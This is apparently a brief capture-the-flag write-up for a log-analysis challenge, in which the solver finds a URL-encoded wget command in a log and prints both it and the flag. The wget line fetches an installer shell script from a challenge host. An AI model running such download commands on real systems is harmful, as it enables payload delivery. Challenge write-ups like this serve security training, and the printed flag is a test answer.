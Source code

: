 ```yaml
---
created: 2024-08-08T09:50
updated: 2024-08-17T20:14
points: 75
---
```


Just by chance, when cleaning up the log file with `replace`, I ended up on a `cmd`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723125446/2024/08/8896d79a0f95c9011d5e608e8c696db5.png)

```
wget+https%3A%2F%bugcrowd-leaked.chals.io%2Ff8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c%2Finstaller.sh.txt

https://bugcrowd-leaked.chals.io/f8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c/installer.sh.txt
```

```flag
flag{Blu3_DA_b@_d3E_d@_ba>d1$%^$%}
```
